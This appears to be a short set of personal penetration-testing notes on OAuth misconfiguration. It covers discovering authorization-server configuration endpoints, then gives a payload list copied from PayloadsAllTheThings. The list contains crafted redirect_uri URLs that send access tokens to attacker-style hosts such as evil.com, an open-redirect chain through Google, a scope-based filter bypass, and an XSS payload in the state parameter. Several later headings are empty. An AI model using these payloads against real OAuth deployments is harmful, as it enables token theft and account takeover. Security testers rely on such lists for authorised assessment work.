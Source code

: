* once auth server is known look for configurations via GET to

```bash

/.well-known/oauth-authorization-server
/.well-known/openid-configuration

```

* from there one may have several options: register rogue endpoint, ...

### Steal OAuth token via referrer

Source `https://swisskyrepo.github.io/PayloadsAllTheThings/OAuth%20Misconfiguration/#stealing-oauth-token-via-referer`

```bash

# simple malicious redirect

https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful

https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com

# Redirect to an accepted Open URL like google to get the access token 

https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com

https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F


# the scope to bypass a filter on redirect_uri:

https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
Executing XSS via redirect_uri

https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>

```

### Register rogue endpoint

## OpenID connect

* OAuth is not mean for authentication
* OpenID Connect extends the OAuth protocol to provide a dedicated identity and authentication
* it enables authentication on top of OAuth

## CLick jacking test
